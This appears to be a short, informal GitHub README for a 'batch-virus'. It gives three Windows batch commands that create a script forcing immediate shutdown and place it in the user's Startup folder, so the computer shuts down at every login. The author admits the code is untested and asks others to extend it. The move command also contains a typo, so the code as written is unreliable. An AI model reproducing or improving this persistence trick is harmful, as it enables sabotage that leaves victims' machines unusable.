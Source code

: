 # batch-virus
first i am going to put this in here without testing it because i do not i a spare computer because i am broke as hell
ok the first thing is don't do this like don't
the first three lines are the lines that make your computer unusable
cd %HOMEPATH%\desktop
echo shutdown /s /t 1 /c "lol" >suckit.bat
move "C:\%HOMEPATH%\desktop\suckit.bat" "C;\%HOMEPATH%\Appdata\roaming\Microsoft\Windows\start menu\programs\startup
now just add stuff on to make it better and when they shutdown their computer it won't startup and for anyone who is willing or has a vm please test this and please set me know if there are issues so i can fix it again I did this on a readme file because I bat experiments and if I accidently click on this well... F%$# so yeah.
